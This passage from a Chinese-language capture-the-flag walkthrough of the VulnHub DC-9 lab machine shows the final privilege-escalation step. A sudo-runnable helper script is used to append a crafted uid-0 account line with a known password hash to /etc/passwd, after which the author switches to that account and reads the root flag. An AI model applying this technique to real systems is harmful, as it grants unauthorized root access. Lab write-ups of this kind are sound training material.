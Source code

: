 2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/21.png)

看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/22.png)

提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
